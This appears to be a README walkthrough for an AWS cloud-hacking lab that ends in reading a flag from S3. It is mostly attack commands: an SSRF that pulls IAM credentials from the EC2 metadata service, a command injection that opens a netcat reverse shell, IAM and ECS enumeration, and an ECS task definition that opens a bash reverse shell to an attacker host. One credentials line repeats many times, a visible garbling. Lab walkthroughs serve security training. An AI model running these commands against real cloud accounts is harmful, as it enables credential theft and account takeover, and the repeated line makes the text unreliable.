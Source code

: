 
Go to `http://<ec2_ip_address>`

### SSRF

```
http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>
aws configure --profile attacker
echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials`echo "aws_session_token = <token>" >> ~/.aws/credentials
```

### Command Injection

- prepare another host for revshell attack with `nc -lvp 4000`
- command injection on web with `; nc <ip_address> 4000 -e /bin/sh &`

### For more information

- more information about iam

```
aws sts get-caller-identity
aws iam get-role --role-name <role>
aws iam list-attached-role-policies --role-name <role>
aws iam list-role-policies --role-name <role>
aws iam get-role-policy --role-name <role> --policy-name <policy>
aws iam list-roles
```

- more information about ecs

```
`aws ecs list-clusters`
`aws ecs describe-clusters --clusters <cluster>`
`aws ecs list-container-instances --cluster arn:aws:ecs:us-east-1:<aws_id>:cluster/<cluster>`
```

### ECS Privesc

* Attacker prepare revshell at other public ip point with `nc -lvp 4000`.

* And now come back to CLI.

```
# ECS Task definition with revshell command.
aws ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::<userr_id>:role/<role> --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/4000 0>&1\\\"\"]}]"

# For run-task, find available subnets.
aws ec2 describe-subnets

# Run task.
aws ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:<user_id>:cluster/<cluster> --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"<subnet>\"]}}"
```
After a few minutes, the revshell will be connected by container.
Let's do it on revshell.

### Access S3

```
apt-get update
apt-get install awscli

aws s3 ls
aws s3 ls s3://<bucket-name>/
aws s3 cp s3://<bucket-name>/flag.txt .
cat flag.txt
```